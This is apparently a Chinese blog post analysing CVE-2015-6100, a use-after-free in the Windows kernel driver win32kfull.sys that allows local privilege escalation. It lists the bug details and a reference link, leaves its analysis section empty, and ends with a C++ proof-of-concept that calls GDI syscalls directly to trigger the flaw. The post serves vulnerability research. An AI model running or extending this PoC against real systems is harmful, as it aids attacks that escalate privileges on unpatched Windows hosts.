

# CVE-2015-6100 漏洞分析 - 紅人 - 博客园

> 原文：[`www.cnblogs.com/feizianquan/p/16461843.html`](https://www.cnblogs.com/feizianquan/p/16461843.html)

### 0x00 漏洞信息

漏洞影响：本地提权

漏洞文件：win32kfull.sys

漏洞函数：*NtGdistartpage*

漏洞原因：释放重引用

漏洞日期：2015 年 11 月 10 日

### [【漏洞分析合集】](https://www.cnblogs.com/feizianquan/p/10882161.html)

### 0x01 漏洞分析



 参考链接

https://www.fortinet.com/blog/threat-research/root-cause-analysis-of-windows-kernel-uaf-vulnerability-lead-to-cve-2016-3310

### 0x02poc

```
/* * compile:
 * cl.exe poc.cpp user32.lib gdi32.lib */ #include <stdio.h> #include <tchar.h> #include <Windows.h> __declspec(noinline) int __stdcall NtGdiSelectBitmap(HDC hdc, HBITMAP hbrush) {
     __asm {
         push hbrush
        push hdc
        push 0x0 mov eax, 0x110b mov edx, 0x7ffe0300 call dword ptr [edx]
        add esp, 0xc }
}

__declspec(noinline) int __stdcall NtGdiEndDoc(HDC hdc) {
     __asm {
        push hdc
        push 0x0 mov eax, 0x1086 mov edx, 0x7ffe0300 call dword ptr [edx]
        add esp, 0x8 }
}

__declspec(noinline) int __stdcall NtGdiStartPage(HDC hdc) {
     __asm {
        push hdc
        push 0x0 mov eax, 0x112d mov edx, 0x7ffe0300 call dword ptr [edx]
        add esp, 0x8 }
}

__declspec(noinline) int __stdcall NtGdiPolyPolyDraw(HDC hdc, DWORD *dw0, DWORD *dw1, DWORD dw2, DWORD dw3) {
     __asm {
         push dw3
         push dw2
         push dw1
         push dw0
        push hdc
        push 0x0 mov eax, 0x10f9 mov edx, 0x7ffe0300 call dword ptr [edx]
        add esp, 0x18 }
} int _tmain(int argc, _TCHAR* argv[])
{
    GdiFlush();
    HDC hdc1 = CreateDCA(0,"Microsoft XPS Document Writer", 0, 0);
    printf("[-] hdc1: %08x\n", hdc1);
    HBITMAP hbmp = LoadBitmapW(0x0, (LPCWSTR)0x7fec);
    printf("[-] hbmp: %08x\n", hbmp);
    HDC hdc2 = CreateCompatibleDC(hdc1);
    printf("[-] hdc2: %08x\n", hdc2);
    NtGdiSelectBitmap(hdc2, hbmp);
    DOCINFOW d1;
    d1.cbSize = sizeof(DOCINFOW);
    d1.lpszDocName = L"print1";
    d1.lpszOutput = d1.lpszDocName;
    d1.lpszDatatype = L"EMF";
    d1.fwType = 0xa8990032;
    StartDocW(hdc1, &d1); // Triggers a usermode exception in a usermode callback handler
    try{
    NtGdiStartPage(hdc2);
    }catch(...){}
    ExtFloodFill(hdc1, 0xf6, 0x70c0ad7, 0x3d, 0x0);
}
```